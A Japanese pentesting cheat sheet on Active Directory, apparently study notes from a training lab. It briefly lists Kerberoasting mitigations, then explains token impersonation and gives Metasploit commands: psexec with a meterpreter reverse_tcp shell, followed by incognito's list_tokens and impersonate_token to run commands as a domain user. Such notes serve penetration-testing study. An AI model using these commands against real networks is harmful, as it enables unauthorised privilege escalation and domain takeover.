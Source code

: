 攻撃手法
[[CheatSheet/Active Directory#Kerberoasting|Active Directory]]

## 対策
- 強いパスワード
	- サービスアカウントのパスワードをADの説明欄に書かない
- 最小権限に従う
	- サービスアカウントをドメイン管理者権限にするべきではない

# トークンなりすまし攻撃
- トークンとは
	- デリゲートトークン
		- 一般的にマシンにログインしたり、RDPでのログインで使われるトークン
	- なりすましトークン
		- インタラクティブでないトークン
		- スクリプトなどを作成して、それを使って共有フォルダにアクセスする時のトークン

ここではデリデートトークンをなりすます
- で、なりまして、ドメイン管理者として、コマンドを実行できたら、新しいアカウントを作ることで確立する

仕組み
- ユーザーがログオンすると、**アクセストークン**が発行される
- 他のプロセスやサービスがそのユーザーのトークンを「開いたまま持っている」と、それを**借りて（impersonate）なりすまし**ができる

## 攻撃手法

### Metasploit
まずは、metapreterシェルを設定する ( msfconsole内
```sh
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
# RHOSTは、AD参加ホストであればなんでも。DC以外でも良い。
set RHOSTS <AD参加ホストIP>
set smbuser <ユーザーネーム>
set smbpass <パスワード>
set smbdomain <ドメイン名>
set LHOST 
```

以下 meterpreter内で実行
上で、シェルが確立できた後 、なりすましをするためのモジュールをロードする
```sh
meterpreter > load incognito
```

ユーザー（user）に絞って表示、なりすまし可能なトークンを列挙する
- ここまでで、どのアカウントになり済ますべきか、知っているべき
```sh
meterpreter > list_tokens -u
```

なりすますユーザーを指定し、なりすます
 - この時、スラッシュを二つつける
	 - 例 : MARVEL\\fcastle
```sh
meterpreter > impersonate_token <なりすますユーザー名>
meterpreter > shell
whoami
```
